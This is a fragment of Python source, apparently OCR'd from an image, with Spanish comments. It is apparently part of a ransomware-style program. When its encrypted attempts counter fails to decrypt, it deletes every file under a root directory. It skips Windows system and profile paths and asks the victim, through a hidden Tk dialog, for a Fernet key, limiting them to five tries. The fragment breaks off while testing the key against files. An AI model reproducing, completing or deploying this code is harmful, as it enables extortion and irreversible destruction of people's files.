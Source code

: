```python
        encrypted_attempts = attempts_file.read()
    try:
        decrypted_attempts = internal_cipher.decrypt(encrypted_attempts)
        attempts = int(decrypted_attempts.decode())
    except InvalidToken:
        print("Error: Archivo de intentos comprometido. Eliminando archivos.")
        for dirpath, dirnames, filenames in os.walk(root_dir):
            for filename in filenames:
                os.remove(os.path.join(dirpath, filename))
        exit()

# Lista de exclusiones
exclusions = [
    'C:\\Windows',
    'C:\\Program Files',
    'C:\\Program Files (x86)',
    'C:\\Users\\Default',
    'C:\\Users\\Public',
    'C:\\Users\\<Username>\\AppData',
    'C:\\Users\\<Username>\\NTUSER.DAT',
    'C:\\Users\\<Username>\\ntuser.dat.LOG1',
    'C:\\Users\\<Username>\\ntuser.dat.LOG2',
    'C:\\Users\\<Username>\\Local Settings',
    'C:\\Users\\<Username>\\LocalService',
    'C:\\Users\\<Username>\\NetworkService'
]

def should_exclude(path):
    for exclusion in exclusions:
        if path.startswith(exclusion):
            return True
    return False

# Solicita la clave de encriptación al usuario y verifica si es correcta
def get_encryption_key():
    root = tk.Tk()
    root.withdraw()
    return simpledialog.askstring("Clave de encriptación", "Introduce la clave de encriptación:", show='*')

key = None
cipher = None
is_valid_key = False

while not is_valid_key and attempts < 5:
    key = get_encryption_key()
    if key is None:
        print("Operación cancelada por el usuario.")
        exit()
    key = key.encode()
    try:
        cipher = Fernet(key)
        # Probar desencriptar algo para verificar la clave
        test_file = False
        for dirpath, dirnames, filenames in os.walk(root_dir):
            if should_exclude(dirpath):
                continue
            for filename in filenames:
                filepath = os.path.join(dirpath, filename)
                try:
                    with open(filepath, 'rb') as file:
                        encrypted_data = file.read()
                    cipher.decrypt(encrypted_data)
```